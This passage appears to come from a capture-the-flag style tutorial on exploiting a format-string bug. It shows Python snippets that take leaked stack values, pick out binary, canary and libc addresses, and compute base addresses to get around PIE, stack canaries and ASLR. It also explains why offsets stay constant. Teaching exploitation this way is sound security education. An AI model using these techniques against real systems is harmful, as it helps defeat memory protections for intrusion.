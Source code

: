 ```python

# Take from position 35 onwards (skip garbage)
leak = addresses[35:]
```

**Why position 35?**

The first 34 positions contain:
- NULL values
- The format string itself (e.g., `0x7025702570257025` = "%p%p%p%p")
- Garbage values

**Position 35+ contains our actual leaks:**
```python
leak[0]  = binary address   # PIE bypass
leak[1]  = canary value     # Stack protection bypass
leak[2]  = stack address    # Reference
leak[10] = libc address     # ASLR bypass
```

### Step 4: Extract and Calculate

```python
# Extract raw leaked values
binary_leak = int(leak[0], 16)
canary      = int(leak[1], 16)
stack_leak  = int(leak[2], 16)
libc_leak   = int(leak[10], 16)

# Calculate base addresses
BINARY_OFFSET = 0x3098   # Offset of leaked function from binary base
LIBC_OFFSET   = 0x2a1ca  # Offset of leaked function from libc base

elf.address   = binary_leak - BINARY_OFFSET
libc.address  = libc_leak - LIBC_OFFSET
```

### Understanding Offsets

**What is an offset?**

When PIE/ASLR is enabled, the base address changes, but internal structure stays the same:

```
Run 1:
  Binary base: 0x555555554000
  main():      0x555555554000 + 0x1169 = 0x555555555169
  
Run 2:
  Binary base: 0x564922cb0000  ← CHANGED!
  main():      0x564922cb0000 + 0x1169 = 0x564922cb1169  ← CHANGED!
  
Offset (0x1169) stays constant!
```

